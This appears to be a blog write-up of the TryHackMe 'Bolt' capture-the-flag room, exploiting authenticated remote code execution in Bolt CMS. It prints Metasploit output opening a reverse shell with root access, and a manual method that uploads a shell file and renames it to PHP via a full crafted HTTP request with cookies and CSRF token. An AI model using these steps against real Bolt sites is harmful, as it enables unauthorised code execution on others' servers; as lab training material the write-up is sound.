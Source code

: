 ```yaml
---
layout: post
title:  "THM - Bolt"
date:   2020-08-13 20:00:00 +1000
category: hacking
---
```


## Introduction
*This room is designed for users to get familiar with the Bolt CMS and how it can be exploited using Authenticated Remote Code Execution.*  

Okey dokey then. It's easy rated. Let's begin.

## Ports
nmap says we've got three ports: 22 (SSH) and 80 (HTTP) and 8000. One of the questions is:

*What port number has a web server with a CMS running?*

so I think we can assume we're looking for port 8000. Let's go there.

## Port 8000
The page helpfully gives us some creds - I guess this is an exercise in authenticated RCE after all - bolt:boltadmin123 

## Metasploit
We can exploit this with Metasploit - it's basically this:

{% highlight shell %}
msf5 exploit(unix/webapp/bolt_authenticated_rce) > run

[*] Started reverse TCP handler on 10.9.10.123:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "apyaem".
**etc**
shell
[*] Trying to find binary(python) on target machine
[*] Found python at 
[*] Using `python` to pop up an interactive shell
whoami
root
which python3
/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash");'
root@bolt:~/public/files# ls -lash
root@bolt:/root# cd /home
cd /home
root@bolt:/home# ls -lash
ls -lash
total 288K
4.0K drwxr-xr-x  3 root root 4.0K Jul 18 19:36 .
4.0K drwxr-xr-x 27 root root 4.0K Jul 18 19:30 ..
4.0K drwxr-xr-x 10 bolt bolt 4.0K Jul 18 20:51 bolt
272K -rw-r--r--  1 root root 272K Jul 18 19:36 composer-setup.php
4.0K -rw-r--r--  1 root root   34 Jul 18 19:33 flag.txt
root@bolt:/home# cat flag.txt
cat flag.txt
**FLAG HERE**
{% endhighlight %}

So, that's pretty easy.

## Too Easy
In fact that was too easy, so let's do it without metasploit. The below is based on [this](https://www.exploit-db.com/exploits/48296):

1. Login to bolt with bolt:boltadmin123 at: *http://10.10.246.203:8000/bolt/login*
2. Visit *view-source:http://10.10.246.203:8000/bolt/overview/showcases* and copy the csrf token
3. Upload a reverse shell with a .txt extension at *http://10.10.246.203:8000/bolt/files*, eg. **shell.txt**
4. Start a netcat listener
5. Sent this request via Burp, with the appropriate cookie and token values:

{% highlight html %}
POST /async/folder/rename HTTP/1.1
Host: 10.10.246.203:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: bolt_session_4d15e6f652c744dfa859d2603ae24684=9e5fd37dba71affe7ae0febb83; bolt_authtoken_4d15e6f652c744dfa859d2603ae24684=5483a2218991ba3b7b1dec5a6a561ab81d4bc9e26b2168b4cb7501ce84fe24b1
Upgrade-Insecure-Requests: 1
Content-Length: 124
Content-Type: application/x-www-form-urlencoded

namespace=root&parent=public/files&oldname=./shell.txt&newname=./shell.php&token=zLkOX0JJsurkJFpCoIgB1SrZg1y9n_pSedYFHCd0Fp8
{% endhighlight %}

Finally, visit *http://10.10.246.203:8000/files/shell.php*

Boom.
